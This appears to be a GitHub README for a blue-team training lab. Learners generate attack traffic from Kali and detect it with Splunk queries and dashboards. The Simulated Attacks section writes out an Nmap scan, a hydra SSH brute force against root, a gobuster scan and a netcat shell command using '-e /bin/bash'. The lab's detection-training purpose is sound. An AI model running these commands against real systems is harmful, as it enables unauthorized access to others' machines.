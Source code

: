 # SOC-Analyst-Lab-Real-Time-Threat-Detection-with-Splunk-Kali-Linux
# 🧪 SOC Analyst Lab: Real-Time Threat Detection with Splunk & Kali Linux

## 🧭 Introduction

This lab simulates a Security Operations Center (SOC) environment where analysts detect, investigate, and respond to real-time threats using **Splunk** and **Kali Linux**. It mimics Blue Team operations for beginners or students aiming to build hands-on detection skills.

---

## 🎯 Objectives

* Build a functional SOC lab using Splunk and Kali
* Generate and analyze suspicious events (e.g. Nmap scans, brute-force attacks)
* Develop alerting logic and dashboards in Splunk
* Simulate analyst workflows: investigation, correlation, and reporting

---

## 🛠 Lab Environment

| Component         | Role                   |
| ----------------- | ---------------------- |
| Kali Linux        | Attacker (Red Team)    |
| Splunk Free       | Log and event analysis |
| Ubuntu/Windows VM | Victim / Log Forwarder |

### Optional Tools

* `Sysmon` for Windows logging
* `UFW` or `iptables` for Linux logs
* `nginx` or test apps to simulate network traffic

---

## 🔧 Setup Steps

### 1. Install Splunk on Ubuntu VM

```bash
wget -O splunk.deb 'https://download.splunk.com/products/splunk/releases/9.0.0/linux/splunk-9.0.0-amd64.deb'
sudo dpkg -i splunk.deb
sudo /opt/splunk/bin/splunk start --accept-license
```

Create admin user and access Splunk at `http://<vm-ip>:8000`

### 2. Configure Universal Forwarder on Windows/Linux

* Download Splunk Universal Forwarder
* Install and set the receiving Splunk instance IP and port (default: 9997)
* Forward important logs: auth.log, syslog, Windows Event Logs

### 3. Enable Receiving on Splunk

* Settings > Forwarding and Receiving > Configure Receiving > Add port 9997

### 4. Add Inputs

* Settings > Data Inputs > Add new monitor: `/var/log/`, `/opt/splunkforwarder/var/log/splunk/`, etc.

---

## 🧨 Simulated Attacks (Kali Linux)

### A. Nmap Scan

```bash
nmap -sS -p 22,80,443 <target-ip>
```

* Should generate logs of port probing
* Splunk query: `index=os_logs sourcetype=auth | search "Failed password"`

### B. SSH Brute Force

```bash
hydra -l root -P rockyou.txt ssh://<target-ip>
```

* Log failed login attempts
* Create correlation search: 5+ failures in 1 minute from same IP

### C. Web Directory Scan (Gobuster)

```bash
gobuster dir -u http://<target-ip> -w /usr/share/wordlists/dirb/common.txt
```

* Detect abnormal HTTP activity
* Analyze access.log for 404 and unusual hits

### D. Netcat Reverse Shell (Simulated Malicious Payload)

```bash
# Victim (listener)
nc -lvnp 4444

# Attacker
nc <target-ip> 4444 -e /bin/bash
```

* Check for unexpected connections in netstat logs

---

## 🔎 Splunk Use Cases & Queries

### 📈 Use Case: Detect SSH Brute Force

```spl
index=linux_logs sourcetype=auth | stats count by src_ip, user | where count > 5
```

### 📈 Use Case: Detect Port Scanning

```spl
index=network sourcetype=ufw | stats count by src_ip, dest_port | where count > 10
```

### 📈 Use Case: Detect HTTP Recon

```spl
index=web_logs sourcetype=access_combined | stats count by uri_path, status | where status=404
```

### 📊 Dashboard Ideas

* Top 10 Source IPs
* Failed vs Successful Logins
* Unusual HTTP Paths
* Brute Force Timeline

---

## 🧑‍💻 Analyst Workflow

1. Monitor Splunk Dashboards
2. Detect anomalies (login failures, abnormal IPs)
3. Drill down: who, what, where?
4. Correlate events across sources
5. Escalate or close incident
6. Document IOCs and response

---

## 🧪 Project Outcomes

* Hands-on experience with log ingestion, detection logic, and threat simulation
* Practice investigating real attack patterns
* Skill development for SOC, SIEM, and Blue Team roles

---

## 🏷 Badges

---




